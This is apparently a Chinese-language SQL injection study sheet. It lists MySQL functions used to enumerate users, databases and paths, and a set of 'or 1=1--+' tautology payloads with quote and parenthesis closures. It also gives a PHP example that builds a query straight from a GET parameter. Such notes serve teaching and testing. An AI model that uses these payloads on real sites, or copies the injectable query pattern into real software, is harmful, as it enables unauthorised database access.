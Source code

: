 # SQL注入总结

## 基础知识

### 系统函数

> system\_user()——系统用户名
>
> user()——用户名
>
> current\_user()——当前用户名
>
> session\_user()——链接数据库的用户名
>
> database()——数据库名
>
> version()——数据库版本
>
> @@datadir——数据库路径
>
> @@basedir——数据库安装路径
>
> @@version\_conpile\_os——操作系统

### 字符串连接函数

> concat(str1,str2,...)——没有分隔符地连接字符串
>
> concat\_ws(separator,str1,str2,...)——含有分隔符地连接字符串
>
> group\_concat(str1,str2,...)——连接一个组的所有字符串，并以逗号分隔每一条数据。

### 一般用于尝试的语句

\--+可以用#替换，url 提交过程中Url 编码后的#为%23

```mysql
or 1=1--+
'or 1=1--+
"or 1=1--+
)or 1=1--+
')or 1=1--+
") or 1=1--+
"))or 1=1--+
一般的代码为：
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

此处考虑两个点，一个是闭合前面你的‘ 另一个是处理后面的‘ ，一般采用两种思路，闭合后面的引号或者注释掉，注释掉采用--+ 或者#（%23）
